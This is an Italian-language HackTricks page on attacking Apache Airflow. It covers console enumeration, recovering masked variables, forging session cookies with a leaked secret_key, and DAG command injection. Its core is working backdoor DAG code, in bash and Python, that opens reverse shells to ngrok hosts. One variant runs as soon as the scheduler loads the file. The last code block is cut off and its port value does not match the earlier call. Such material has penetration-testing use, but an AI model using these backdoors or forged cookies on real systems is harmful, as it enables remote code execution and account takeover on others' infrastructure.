 # Sicurezza di Apache Airflow

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}

### Informazioni di Base

[**Apache Airflow**](https://airflow.apache.org) funge da piattaforma per **orchestrare e pianificare pipeline di dati o flussi di lavoro**. Il termine "orchestrazione" nel contesto delle pipeline di dati indica il processo di organizzazione, coordinamento e gestione di flussi di lavoro complessi di dati provenienti da varie fonti. Lo scopo principale di queste pipeline di dati orchestrate è fornire set di dati elaborati e utilizzabili. Questi set di dati sono ampiamente utilizzati da una miriade di applicazioni, tra cui, ma non solo, strumenti di business intelligence, modelli di data science e machine learning, tutti fondamentali per il funzionamento delle applicazioni di big data.

Fondamentalmente, Apache Airflow ti permetterà di **pianificare l'esecuzione di codice quando qualcosa** (evento, cron) **accade**.

### Laboratorio Locale

#### Docker-Compose

Puoi utilizzare il **file di configurazione docker-compose da** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) per avviare un ambiente docker completo di apache airflow. (Se sei su MacOS assicurati di dare almeno 6GB di RAM alla VM docker).

#### Minikube

Un modo semplice per **eseguire apache airflow** è farlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configurazione di Airflow

Airflow potrebbe memorizzare **informazioni sensibili** nella sua configurazione o potresti trovare configurazioni deboli in atto:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC di Airflow

Prima di iniziare ad attaccare Airflow, dovresti comprendere **come funzionano i permessi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacchi

#### Enumerazione della Console Web

Se hai **accesso alla console web**, potresti essere in grado di accedere ad alcune o a tutte le seguenti informazioni:

* **Variabili** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* **Connessioni** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* Accedile in `http://<airflow>/connection/list/`
* [**Configurazione**](./#airflow-configuration) (Informazioni sensibili come il **`secret_key`** e le password potrebbero essere memorizzate qui)
* Elenca **utenti e ruoli**
* **Codice di ogni DAG** (che potrebbe contenere informazioni interessanti)

#### Recupero dei Valori delle Variabili

Le variabili possono essere memorizzate in Airflow in modo che i **DAG** possano **accedere** ai loro valori. È simile ai segreti di altre piattaforme. Se hai **sufficienti permessi**, puoi accedervi nella GUI in `http://<airflow>/variable/list/`.\
Airflow per impostazione predefinita mostrerà il valore della variabile nella GUI, tuttavia, secondo [**questo**](https://marclamberti.com/blog/variables-with-apache-airflow/), è possibile impostare un **elenco di variabili** il cui **valore** apparirà come **asterischi** nella **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Tuttavia, questi **valori** possono ancora essere **recuperati** tramite **CLI** (è necessario avere accesso al DB), esecuzione di **DAG** arbitrari, **API** che accede all'endpoint delle variabili (l'API deve essere attivata) e **anche la GUI stessa!**\
Per accedere a quei valori dalla GUI, basta **selezionare le variabili** che desideri accedere e **cliccare su Azioni -> Esporta**.\
Un altro modo è eseguire un **bruteforce** sul **valore nascosto** utilizzando il **filtro di ricerca** fino a ottenerlo:

![](<../../.gitbook/assets/image (152).png>)

#### Escalation dei Privilegi

Se la configurazione **`expose_config`** è impostata su **True**, dal **ruolo Utente** e **superiore** possono **leggere** la **configurazione nel web**. In questa configurazione, appare il **`secret_key`**, il che significa che qualsiasi utente con questo valido può **creare il proprio cookie firmato per impersonare qualsiasi altro account utente**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE in Airflow worker)

Se hai **accesso in scrittura** al luogo in cui i **DAG vengono salvati**, puoi semplicemente **crearne uno** che ti invierà una **reverse shell.**\
Nota che questa reverse shell verrà eseguita all'interno di un **contenitore worker di airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE nel scheduler di Airflow)

Se imposti qualcosa per essere **eseguito nella radice del codice**, al momento della scrittura di questo documento, verrà **eseguito dallo scheduler** dopo un paio di secondi dalla sua collocazione all'interno della cartella del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Creazione di DAG

Se riesci a **compromettere una macchina all'interno del cluster DAG**, puoi creare nuovi **script DAG** nella cartella `dags/` e verranno **replicati nel resto delle macchine** all'interno del cluster DAG.

#### Iniezione di Codice DAG

Quando esegui un DAG dalla GUI puoi **passare argomenti** ad esso.\
Pertanto, se il DAG non è codificato correttamente potrebbe essere **vulnerabile all'Iniezione di Comandi.**\
Questo è ciò che è accaduto in questo CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tutto ciò che devi sapere per **iniziare a cercare iniezioni di comandi nei DAG** è che i **parametri** sono **accessibili** con il codice **`dag_run.conf.get("param_name")`**.

Inoltre, la stessa vulnerabilità potrebbe verificarsi con **variabili** (nota che con privilegi sufficienti potresti **controllare il valore delle variabili** nella GUI). Le variabili sono **accessibili con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se vengono utilizzati, ad esempio, all'interno di un comando bash, potresti eseguire un'iniezione di comandi.

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
